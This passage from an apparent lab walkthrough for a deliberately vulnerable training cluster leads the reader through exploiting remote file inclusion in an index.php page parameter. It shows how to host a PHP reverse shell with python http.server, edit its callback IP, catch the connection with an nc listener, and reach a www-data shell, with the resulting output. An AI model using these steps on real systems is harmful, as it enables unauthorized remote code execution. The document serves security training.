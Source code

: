     ```shell
    python3 -m http.server 8001
    ```

11. It's important to know that your Kali system has the IP address `10.23.58.30` on the virtual machine network local to your system.

12. Now go back to the browser and change the URL's `page` parameter to a non-existent PHP file on your Kali system - your URL should now read:

    ```
    http://bustakube-node-1:31374/index.php?page=http://10.23.58.30:8001/rfi-likely
    ```

13. Go back to the `lxterminal` window to see if the web server received an incoming request.  If it did, you should see a log message that has `GET /rfi-likely.php` in it. While yours won't be an exact match, it will look something like this:

    ```
    10.23.58.41 - - [06/Aug/2022 10:00:00] "GET /rfi-likely.php HTTP/1.0" 404 -
    ```

14. This demonstrates that if we change the page parameter to a URL, the `index.php` application will append `.php` to the URL, fetch it, and may even execute it.

15. Start up another `lxterminal` tab by hitting `Ctrl-Shift-t`.

16. Copy a PHP reverse shell into the home directory that your web server is serving:

    ```shell
    cp /usr/share/webshells/php/php-reverse-shell.php ~/phprs.php
    ```

17. Set the IP address in the reverse shell script to your Kali host's `10.23.58.30` IP address:

    ```shell
    sed -i 's/127.0.0.1/10.23.58.30/' ~/phprs.php
    ```

18. Set up a netcat listener to catch the shell coming back from anyone who runs this script:

    ```shell
    nc -l -p 1234
    ```

19. Now, let's trigger our exploitation. Go back to the browser window and submit the index.php form again, this time setting `page` to `http://10.23.58.30:8001/phprs` - your URL bar should look like this:

    ```
    http://bustakube-node-1:31374/index.php?page=http://10.23.58.30:8001/phprs
    ```

20. Go back to the terminal window - you should find yourself with a connection to your netcat listener that gives you a nice juicy shell on a system called `wopr` - here's the output from our test system:

    ```
    Linux wopr 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64 GNU/Linux
    03:48:22 up 1 day,  3:44,  0 users,  load average: 0.07, 0.11, 0.05
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $
    ```
